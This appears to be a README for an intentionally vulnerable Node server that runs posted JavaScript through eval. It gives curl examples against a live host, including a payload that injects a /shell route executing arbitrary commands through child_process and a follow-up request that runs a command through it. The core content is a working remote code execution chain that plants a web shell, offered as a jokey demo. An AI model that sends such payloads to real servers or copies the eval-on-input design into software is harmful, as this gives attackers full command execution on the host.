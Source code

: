 # About

A server that is super vulnerable to attacks. Because why not throw `eval` into it.

# Examples

**Basic**

```
curl -X POST https://eval.nfshost.com/ \
  -H "Content-Type: application/json" \
  -d '{"code": "1 + 1"}'
```

**Add a new route**

```
curl -X POST https://eval.nfshost.com/ \
  -H "Content-Type: application/json" \
  -d '{"code": "app.get(\"/foobar\", (req, res) => res.send(\"woohoo\"))"}'
  ```

**Shell Access**

Gain Access

```
curl -X POST https://eval.nfshost.com/ \
  -H "Content-Type: application/json" \
  -d '{"code": "app.post(\"/shell\", (req, res) => { const { exec } = require(\"child_process\"); exec(req.body.command, (e, o, s) => res.json({ error: e?.message, stdout: o, stderr: s })); });"}'
```

Run a command
```
curl -X POST https://eval.nfshost.com/shell -H "Content-Type: application/json" -d '{"command": "ls -la"}'
```